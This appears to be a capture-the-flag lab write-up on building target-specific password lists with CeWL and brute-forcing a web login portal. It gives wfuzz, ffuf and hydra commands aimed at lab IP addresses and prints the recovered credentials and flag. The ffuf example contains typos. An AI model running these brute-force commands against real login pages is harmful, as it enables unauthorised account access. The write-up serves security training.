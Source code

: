 ![Alt text](image.png)

# Baby, it's CeWLd outside
#Brute-Forcing

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## CeWL

CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. `Target-specific wordlists:` CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. `Depth of search:` CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. `Customisable outputs:` CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. `Built-in features:`While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. `Efficiency:` Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. `Integration with other tools:` Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. `Actively maintained:` CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

Customising Commands
- -d: spidering depth 
- -m and -x: minimum and maximum word length
- -a: handling Authentication
- --extension: handling custom extensions
- --offsite: follow external links

## Brute-force the login portal using **_wfuzz_**
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" 
-u http://10.10.132.80/login.php -d "username=FUZZ&password=FUZ2Z"
```

In the command above:<br>
-z file,usernames.txt loads the usernames list.<br>
-z file,passwords.txt uses the password list generated by CeWL.<br>
--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.<br>
-u specifies the target URL.<br>
-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.<br>

```
UserID: isaias
Password: Happiness
Flag: THM{m3rrY4nt4rct1crAft$}
```

## Other Methods:

### fuff
```
ffuf -s -w usernames.txt:USER -w passwords.txt:PASS -u http://10.10.106.165/loqin.php -d "username=USER&password-PASS" 
-H "Content-Type: application/x-www-form-urlencoded" -fr "Please enter the correct credentials"
```

### hydra
```
hydra -L usernames.txt -P passwords.txt http-post-form://10.10.106.165/login.php:"username=^USER^&password=^PASS^"
:"Please enter the correct credentials"
```

### Turbo Intruder

## Conclusion
AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.


